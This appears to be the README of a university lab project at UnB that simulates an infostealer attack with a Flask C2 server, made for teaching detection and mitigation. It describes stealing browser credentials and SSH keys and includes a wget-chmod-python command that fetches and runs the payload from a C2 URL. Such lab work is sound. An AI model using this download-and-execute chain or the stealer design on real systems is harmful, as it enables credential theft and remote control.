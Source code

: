 # 🕵️‍♂️ InfoStealer and C2 Persistence

[![Status](https://img.shields.io/badge/Status-Educational%20Project-blue.svg)](https://www.unb.br/)
[![License](https://img.shields.io/badge/License-MIT-green.svg)](LICENSE)

This repository presents an infostealer malware project with Command & Control (C2) infrastructure, developed for educational purposes in the **CyberSecurity Fundamentals** discipline at **UnB 2025.1**.

## 🎯 Project Objective

The main objective is to develop and implement a laboratory environment for simulating a cyberattack focused on **credential and sensitive data theft via Infostealer**, and maintaining **persistence through a C2 infrastructure**. The simulation aims to understand the dynamics of such attacks and propose **comprehensive solutions** (technical, operational, and procedural) for their detection, prevention, and mitigation.

This work was developed as part of the **CyberSecurity Fundamentals Seminar at UnB 2025.1**.

## ✨ Features

The project simulates a multi-stage attack, including the following key components:

* **HID Device Infection Vector (Simulated BadUSB):**
    * Simulates a USB drive that emulates a keyboard (BadUSB) to inject initial commands into the victim machine.
    * Injects commands to download and execute the Infostealer autonomously on the target machine.
* **Infostealer (Malicious Client):**
    * Developed in **Python** for multi-platform compatibility (Linux demonstrated).
    * Collects browser credentials (**Firefox**, **Chromium**).
    * Collects sensitive files (**.bash_history**, **SSH keys**).
    * Searches for **.txt** files containing keywords in their names.
    * Collects system information.
    * Exfiltrates complete files and collected information to the C2 via **HTTP POST**.
* **Command & Control (C2 Server):**
    * Implemented in **Flask (Python)**.
    * Receives and stores exfiltrated data, organized by victim ID and category.
    * Serves the `stealer_client.py` payload for download.
    * Allows the operator to send arbitrary commands to the Infostealer client, receiving the output.
    * Maintains client persistence.

## ⚙️ Lab Setup

1. **Install Required Tools**
    - Download and install [Terraform](https://www.terraform.io/downloads.html).
    - Download and install [Ansible](https://docs.ansible.com/ansible/latest/installation_guide/intro_installation.html) (not just the core).
    - Download and install [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html).

2. **Set Up AWS Credentials and SSH Keys**
    - Create an AWS account and generate an Access Key for CLI usage.
    - Run `aws configure` to set up your credentials.
    - Create a SSH `key_pair` for your VMs

3. **Configure Variables**
    - Edit `variables.tfvars` and set your `key_pair` and IP address.
    - You can find your IP address with:  
      ```bash
      curl https://ipinfo.io/ip
      ```

4. **Prepare Deployment Script**
    - Make the deployment script executable:  
      ```bash
      chmod +x deploy.sh
      ```

5. **Deploy Infrastructure**
    - Run the deployment script, passing the path to your private key:  
      ```bash
      ./deploy.sh path-to-private-key
      ```
    - The script runs `terraform apply -auto-approve` and `ansible-playbook -i hosts playbook.yaml`.  
      You can also run these commands manually if needed and for terraform run `terraform apply` without `-auto-approve` to be asked to perform the actions.

6. **Access the Virtual Machines**
    - SSH into the web server VM:  
      ```bash
      ssh ubuntu@<IP_VM> -i path-to-private-key
      ```

7. **Troubleshooting**
    - If you see an error like:
      ```
      fatal: [<IP>]: UNREACHABLE! => {"changed": false, "msg": "Failed to connect to the host via ssh: ssh: connect to host <IP> port 22: Connection timed out", "unreachable": true}
      ```
      This can rarely happen when running `deploy.sh`. If it does, simply run the script again.

8. **Manual Fix**
    - On the victim VM, you need to run a script to seed the sensitive data in the machine:
      ```bash
      cd /tmp && ./seed_sensitive_files.sh
      ```

9. **Simulate and Detect the InfoStealer Attack**
    - On the victim VM, run (simulation of the USB):
      ```bash
      mkdir -p ~/.config/.systemd-user/ && cd ~/.config/.systemd-user/

      wget ${C2_URL}/security_debian_x386 -O /tmp/${INFOSTEALER_FILENAME} && chmod +x /tmp/${INFOSTEALER_FILENAME} && python3 /tmp/${INFOSTEALER_FILENAME}
      ```

        ## **TODO: INSERT THE OTHER STEPS**

10. **Destroy and Clean Up the Environment**
    - To remove all provisioned resources and avoid unnecessary charges, run:
        ```bash
        terraform destroy
        ```
- **WARNING: If you do NOT destroy the infrastructure after use, AWS may CHARGE YOU for active resources if you exceed the AWS Free Tier limits!**


> **NOTE:** While this setup is designed to stay within AWS Free Tier limits, you may incur small charges (a few cents) for data transfer.

## 🛡️ Detection and Mitigation Strategies

The project emphasizes proposing comprehensive solutions for detecting, preventing, and mitigating the simulated attack.

* **Technical Controls:** Firewall, EDR/Antivirus, OS hardening, log monitoring, network traffic analysis (IDS/IPS).
* **Operational Measures:** Incident Response Plan (IRP), threat hunting, backups.
* **Procedural Measures:** User awareness regarding social engineering and secure USB usage, USB device usage policies, principle of least privilege.

## ⚠️ Disclaimer

**This project is strictly for educational purposes within the CyberSecurity Fundamentals discipline at the University of Brasília (UnB 2025.1). It must not be used in production environments, real networks, or for any malicious activity. Misuse of this code is the sole responsibility of the user.**

---

